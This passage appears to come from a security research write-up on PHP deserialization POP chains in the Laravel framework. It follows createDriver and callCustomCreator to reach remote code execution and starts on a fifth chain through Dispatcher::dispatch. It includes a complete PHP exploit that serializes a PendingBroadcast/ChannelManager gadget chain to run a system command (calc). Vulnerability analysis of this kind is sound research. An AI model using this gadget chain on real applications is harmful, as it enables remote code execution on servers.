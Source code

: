 ![](https://p1.ssl.qhimg.com/t01c6ae4cbc19ab85f4.png "undefined")

Follow up on the `createDriver()` method, call the `callCustomCreator()` method when `$this->customCreators[$driver]` exists, and further follow up on the `callCustomCreator()` method. It is found that `$this->customCreators[$driver]` and `$this->app)` are both controllable, so RCE can be triggered.

![](https://p0.ssl.qhimg.com/t011e21a2d3da39647d.png "undefined")

### exp
```php
<?php
namespace Illuminate\Notifications {
    class ChannelManager {
        protected $app;
        protected $customCreators;
        protected $defaultChannel;
        public function __construct() {
            $this->app = 'calc';
            $this->defaultChannel = 'H3rmesk1t';
            $this->customCreators = ['H3rmesk1t' => 'system'];
        }
    }
}


namespace Illuminate\Broadcasting {
    use Illuminate\Notifications\ChannelManager;
    class PendingBroadcast {
        protected $events;
        public function __construct()
        {
            $this->events = new ChannelManager();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```
### POP chain utilization flow chart

![](https://p1.ssl.qhimg.com/t01897b941b5103d8dc.png "undefined")

## POP Chain-5
I roughly read the `__call()` method that is basically useless (it's too bad to find), so I started to follow the `dispath()` method

![undefined](https://p0.ssl.qhimg.com/t01b2b0557300f7f989.png "undefined")

First follow up on the `dispatch()` method in `src/Illuminate/Events/Dispatcher.php`, notice `$listener($event, $payload)`, and try to use this as a breakthrough to implement RCE
